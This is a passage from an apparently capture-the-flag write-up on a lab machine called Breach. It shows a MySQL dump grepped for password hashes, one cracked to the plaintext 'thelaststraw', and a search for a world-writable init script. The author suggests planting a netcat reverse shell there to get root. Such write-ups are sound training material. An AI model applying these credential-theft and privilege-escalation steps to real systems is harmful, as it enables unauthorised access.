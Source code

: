 I filtered by the user milton in the buckup file and found a MD5 hash.

```console
root@kali:~$ grep milton mysqldump.sql 
INSERT INTO `user` VALUES ('localhost','root','','Y','Y','Y','Y','Y','Y','Y','Y','Y','Y','Y','Y','Y','Y','Y','Y','Y','Y','Y','Y','Y','Y','Y','Y','Y','Y','Y','Y','Y','','','','',0,0,0,0,'',''),
('','milton','6450d89bd3aff1d893b85d3ad65d2ec2','N','N','N','N','N','N','N','N','N','N','N','N','N','N','N','N','N','N','N','N','N','N','N','N','N','N','N','N','N','','','','',0,0,0,0,'',NULL),
('127.0.0.1','root','','Y','Y','Y','Y','Y','Y','Y','Y','Y','Y','Y','Y','Y','Y','Y','Y','Y','Y','Y','Y','Y','Y','Y','Y','Y','Y','Y','Y','Y','','','','',0,0,0,0,'',''),
('::1','root','','Y','Y','Y','Y','Y','Y','Y','Y','Y','Y','Y','Y','Y','Y','Y','Y','Y','Y','Y','Y','Y','Y','Y','Y','Y','Y','Y','Y','Y','','','','',0,0,0,0,'',''),
('localhost','debian-sys-maint','*A9523939F1B2F3E72A4306C34F225ACF09590878','Y','Y','Y','Y','Y','Y','Y','Y','Y','Y','Y','Y','Y','Y','Y','Y','Y','Y','Y','Y','Y','Y','Y','Y','Y','Y','Y','Y','Y','','','','',0,0,0,0,'',NULL);
```

Then I discovered the password for this hash [here](https://hashes.com).

![](/assets/images/breach1/screenshot-15.png)

I switched to the user milton and I decided enumerate for writable files and found a script with permissions for all users in the /etc/init.d/ directory, so to scale to root we would just write to the portly.sh file a netcat reverse shell, then we would reboot the machine, start a netcat listener and have a root shell, but this doesn't seem realistic to me, so I looked for another method. 

```console
tomcat6@Breach:/var/lib/tomcat6$ su - milton
su - milton
Password: thelaststraw
milton@Breach:~$ find / -writable -type f 2>/dev/null
...
/etc/init.d/portly.sh
...
milton@Breach:~$ ls -la /etc/init.d/portly.sh
-rwxrwxrwx 1 root root 231 Jun  5  2016 /etc/init.d/portly.sh
```
